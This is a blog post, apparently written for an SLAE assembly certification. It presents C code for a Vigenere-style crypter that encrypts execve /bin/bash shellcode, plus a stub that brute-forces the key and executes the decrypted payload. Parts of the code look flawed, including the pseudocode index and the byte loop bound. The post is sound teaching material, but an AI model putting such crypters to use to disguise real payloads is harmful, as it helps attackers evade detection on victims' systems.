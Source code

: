 ```yaml
---
layout: post
title: "SLAE Assignment #7 | Creating a basic crypter for shellcode encryption"
date: 2015-12-04
comments: true
categories:
---
```


This post is about the crypter assignment in the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam.

My crypter is a simple Vigenere cipher with a little twist, the key is bruteforced.
This is done possible because of saving a keyword into the beginning of the shellcode in order to 
know whether we found the correct key or not.

Format:

```
___________________________________________________
|                   |                             |
| keyword encrypted |    shellcode encrypted      |
|___________________|_____________________________|


```

The cipher is most easily explained and most commonly shown with the following algebraic description:

Encryption:

```
Ci = Mi+K(i mod keylength) mod 256
```

Decryption:

```
Mi = Ci-K(i mod keylength) mod 256
```

The following bruteforce operation must be done to find the key:

```
keyword = arrayOfBytes with length = keylength
key = empty arrayOfBytes with length = keylength

for index in range(0,keylength):
  for n in range(1,256):
    if Ci - n == keyword[n]:
      key[index] = n
      break
```


The encryption code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define KEYLENGTH 10

const char* keyword = "1234567890";
const char* key   = "4422338877";

unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";


char* encode(unsigned char arr[], int arrLength, const unsigned char key[], int keyLength){
    unsigned char* encoded = malloc(sizeof(char) * (arrLength+KEYLENGTH));
    
    //First set the keyword elems 
    for(int i=0; i < KEYLENGTH; i++){
      encoded[i] = (keyword[i]+key[i%keyLength])%256;
    }

    //Then the actual shellcode
    for(int i=0; i<arrLength; i++){
      encoded[i+KEYLENGTH] = (arr[i]+key[i%keyLength])%256;
    }
    return encoded;
}

int main(){
    unsigned char* output = encode(shellcode,strlen(shellcode),key,strlen(key));
    
    for(int x = 0; x<strlen(shellcode)+KEYLENGTH;x++){
        printf("\\x%02x",output[x]);
    }

    return 0;
}
```

The decrypter, ie, the stub:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#define KEYLENGTH 10


const char* keyword = "1234567890";
unsigned char encryptedShellcode[] = \
"\x65\x66\x65\x66\x68\x69\x6f\x70\x70\x67\x65\xf4\x82\x9a\x95\x94\xab\xa0\x9f\x66\x63\x63\x61\x9a\x62\x95\xa1\xa6\xc0\x1a\x84\xbd\x14\x85\xbc\x14\xe8\x43\x04\xb7";

char* extractShellcode();
char* decode(unsigned char arr[], int arrLength, const unsigned char key[]);

int main(){
  char* shellcode = extractShellcode();
    int (*ret)() = (int(*)())shellcode;
    (ret+KEYLENGTH)();
  return 0;
}

//Bruteforces the the key with the help of the keyword value.
//The decrypted shellcode is returned
char* extractShellcode(){
  char keyArray[KEYLENGTH];
  char* decoded;

  for(int i=0; i < KEYLENGTH; i++){
    for(char j=0; j < 256; j++){
      //Check if keyword matches for this position
      keyArray[i]=j;
      decoded = decode(encryptedShellcode,strlen(encryptedShellcode),keyArray);
      if(decoded[i]==keyword[i]){
        break;
      }
      free(decoded);
    }
  }
  printf("The key was found to be: %.*s\n", KEYLENGTH, keyArray);

  return decoded;
}

//Decodes given array with key as vigenere cipher specifies.
char* decode(unsigned char arr[], int arrLength, const unsigned char key[]){
  unsigned char* decoded = malloc(sizeof(char) * arrLength+1);

    for(int i=0; i<arrLength; i++){
        decoded[i] = (arr[i]-key[i%KEYLENGTH])%256;
    }
    return decoded;
}
```

Lets run it:

```bash
root@kali:~/Desktop/SLAE/assignment-7# gcc encrypt.c -o encrypt -std=gnu99
root@kali:~/Desktop/SLAE/assignment-7# ./encrypt 
\x65\x66\x65\x66\x68\x69\x6f\x70\x70\x67\x65\xf4\x82\x9a\x95\x94\xab\xa0\x9f\x66\x63\x63\x61\x9a\x62\x95\xa1\xa6\xc0\x1a\x84\xbd\x14\x85\xbc\x14\xe8\x43\x04\xb7
root@kali:~/Desktop/SLAE/assignment-7# gcc decrypt.c -o decrypt -std=gnu99 -z execstack
root@kali:~/Desktop/SLAE/assignment-7# ./decrypt 
The key was found to be: 4422338877
root@kali:/root/Desktop/SLAE/assignment-7# exit
exit
```

I started this post before I started the Crypto course in school, now I'm finishing it after it's completion and I feel I
could have picked a more fancy encryption, CBC. schoolbook RSA or any the like but still the Vigenere was quite fun to program with 
the bruteforcing part.

---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569